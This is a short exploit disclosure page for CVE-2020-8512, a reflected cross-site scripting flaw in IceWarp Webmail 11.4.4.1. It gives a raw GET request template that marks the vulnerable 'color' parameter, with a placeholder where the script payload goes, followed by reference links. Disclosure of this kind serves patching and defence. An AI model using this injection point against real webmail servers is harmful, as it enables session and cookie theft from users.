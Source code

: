 ```yaml
---
title: "IceWarp 11.4.4.1 Cross-Site Scripting - CVE-2020-8512"
collection: exploits
excerpt: "IceWarp 11.4.4.1 Cross-Site Scripting"
permalink: /exploit/icewarp-xss-exploit
date: 2020-01-27
tags:
  - exploit
  - CVE 2020 8512
  - icewarp
  - Reflected XSS
  - IceWarp Webmail version 11.4.4.1
---
```


**Exploit Author :** Lutfu Mert Ceylan  
**Date :** 27.01.2020  
**Software Link :** https://gitlab.icewarp.com/pub/c-client/tree/tags/11.4.4.1/  
**Vendor Homepage :** https://www.icewarp.com/ <br>
**Version :** IceWarp 11.4.4.1 and below  
**Tested on :** Mozilla Firefox 56.0 && Opera 66.0.3515.44  
**Category :** Reflected XSS  
**CVE ID :** CVE-2020-8512  

<hr><br>  

**GET REQUEST :**

GET /webmail/?color=**XSS PAYLOAD** HTTP/1.1<br>
Host: **targethost**<br> 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0<br> 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br> 
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3<br> 
Accept-Encoding: gzip, deflate<br> 
Cookie: **cookie**<br> 
Connection: close<br> 
Upgrade-Insecure-Requests: 1<br> 

**Vulnerable Page :**
/webmail/<br> 
**Vulnerable Parameter :**
color


Exploit DB : <a href="https://www.exploit-db.com/exploits/47988">47988</a>

<details>
  <summary>CVE-2020-8512</summary>

  1. IceWarp WebMail 11.4.4.1 Cross-Site Scripting
     * [https://www.exploit-db.com/exploits/47988](https://www.exploit-db.com/exploits/47988)
     * [CVE-2020-8512 IceWarp WebMail XSS Exploitation - https://www.youtube.com/watch?v=WJo3-dn3wy4](https://www.youtube.com/watch?v=WJo3-dn3wy4)
     * [Online Scanner for CVE-2020-8512](https://securityforeveryone.com/tools/icewarp-webmail-xss-cve-2020-8512)
     * [0day.today Record](https://0day.today/exploit/description/33886)
     * [National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2020-8512)
